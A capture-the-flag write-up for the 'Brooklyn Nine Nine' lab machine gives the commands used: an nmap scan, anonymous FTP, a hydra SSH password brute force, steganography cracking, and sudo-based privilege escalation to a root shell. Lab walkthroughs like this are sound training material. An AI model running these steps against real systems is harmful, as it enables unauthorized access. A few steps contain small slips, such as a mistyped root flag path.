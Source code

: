 # Brooklyn Nine Nine

> thegurpreet | Mar 2021

## Enumeration

Setting ip variable
```
export ip=10.10.76.13
```

Scanning ports using nmap. Found FTP, SSH and HTTP port open

```
sudo nmap -sV -sC $ip
```

## First way to access of box

As per NMAP result above user is ftp and anonymous login is allowed
```
ftp $ip
```

Check available files and download locally to review them
```
dir
get note_to_jake.txt
```

To bruteforce weak password, lets use hydra
```
hydra -l jake -P /usr/share/wordlists/rockyou.txt $ip -t 4 ssh
```

Login with given credentials
```
ssh jake@$ip
```

Check available sudo commands
```
sudo -l
```

Capture user flag
```
less /home/holt/user.txt
```

### Privilege Escalation

Check information about sudo tar on gtfobins
```
sudo less /etc/profile
!/bin/sh
```

Root access!!




## Second way to access of box

Crack passphrase using stegcracker
```
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```

Login with given creds
```
ssh jake@$ip
```

Capture user flag


### Privilege Escalation

Check available sudo commands
```
sudo -l
```

Use sudo to read Root flag
```
sudo nano /root/root/txt
```

Root access!!
